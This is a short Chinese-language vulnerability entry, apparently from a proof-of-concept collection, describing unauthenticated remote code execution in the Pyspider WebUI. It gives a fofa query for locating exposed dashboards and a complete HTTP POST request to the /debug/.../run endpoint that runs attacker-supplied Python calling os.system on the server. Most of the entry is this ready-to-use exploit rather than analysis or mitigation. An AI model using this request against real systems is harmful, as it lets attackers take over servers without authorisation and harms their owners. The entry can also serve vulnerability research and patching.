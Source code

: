 ## Pyspider-WebUI未授权访问致远程代码执行漏洞

由于Pyspider WebUI未进行合理的访问控制，默认允许远程攻击者未授权访问webui界面，且系统内部存在python脚本在线编辑并运行的模块，导致未经身份验证的攻击者可远程执行python代码调用系统命令来获取服务器权限。

## fofa

```yaml
title="Dashboard - pyspider"
```

## poc

```yaml
POST /debug/任意实例名/run HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Connection: close
 
webdav_mode=false&script=import+os%0D%0A%0D%0Aprint%28os.system%28%27执行的命令%27%29%29&task=%7B%0A++%22process%22%3A+%7B%0A++++%22callback%22%3A+%22on_start%22%0A++%7D%2C%0A++%22project%22%3A+%22pyspidervulntest%22%2C%0A++%22taskid%22%3A+%22data%3A%2Con_start%22%2C%0A++%22url%22%3A+%22data%3A%2Con_start%22%0A%7D
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407092258892.png)